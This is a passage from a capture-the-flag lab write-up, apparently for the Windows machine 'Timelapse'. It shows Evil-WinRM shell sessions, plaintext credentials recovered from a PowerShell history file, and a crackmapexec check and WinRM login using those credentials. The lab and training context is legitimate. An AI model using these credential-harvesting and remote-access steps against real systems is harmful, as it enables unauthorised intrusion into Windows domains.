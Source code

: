 Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                       
Warning: SSL enabled

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```
	- We grab user flag
## Lateral Movement
- **IMPORTANT enumeration for Windows**
	- https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html
	- To check powershell command history in the domain go to :
		```bash
cd C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSreadLine
type ConsoleHost_history.txt

---OUTPUT---
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
		- We get some credentials.
- We check with crackmapexec
	```bash
crackmapexec winrm 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'

---OUTPUT---
SMB         10.10.11.152    5986   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:timelapse.htb)
HTTP        10.10.11.152    5986   DC01             [*] https://10.10.11.152:5986/wsman
WINRM       10.10.11.152    5986   DC01             [-] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV "HTTPConnectionPool(host='10.10.11.152', port=5985): Max retries exceeded with url: /wsman (Caused by ConnectTimeoutError(<urllib3.connection.HTTPConnection object at 0x7f44b58a8c20>, 'Connection to 10.10.11.152 timed out. (connect timeout=30)'))"

```
	- It fails after the connection to 5985 times out (we require 5986 SSL though from our nmap so we try to login with winrm anyway)
- we evil-winrm into the machine using SSL (doesn't work without):
	```bash
evil-winrm -S -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -i 10.10.11.152

---OUTPUT---
evil-winrm -S -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -i 10.10.11.152
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                       
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                         
                                        
```